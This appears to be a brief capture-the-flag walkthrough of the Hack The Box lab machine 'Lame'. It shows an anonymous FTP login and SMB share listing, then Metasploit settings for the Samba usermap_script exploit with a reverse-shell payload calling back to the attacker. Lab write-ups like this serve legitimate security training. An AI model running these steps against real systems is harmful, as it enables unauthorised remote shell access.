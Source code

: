 # Lame



<figure><img src="../../../../.gitbook/assets/image (152).png" alt=""><figcaption></figcaption></figure>

### Recon

How many of the nmap top 1000 TCP ports are open on the remote host?

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>4 Ports Open</p></figcaption></figure>

i will see the port open FTP - 21 with \
login Anonymous \
and \
Password Anonymous

```bash
ftp 10.10.10.3
```

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (4) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

but can't expliot ftp  come i will try expliot using smb

{% hint style="success" %}
With Passweord Protected OFF
{% endhint %}

```
smbclient -L 10.10.10.3
```

<figure><img src="../../../../.gitbook/assets/image (5) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (6) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Initial Access

```bash
exploit/multi/samba/usermap_script
set payload cmd/unix/reverse
set lhost tun0
set lport 443
```

<figure><img src="../../../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

Root Flag

<figure><img src="../../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

User Flag

<figure><img src="../../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

### Exploits Used

**msfconsole**

```
exploit/multi/samba/usermap_script
```

### Tools Used

* Nmap
* smbclient
* nc

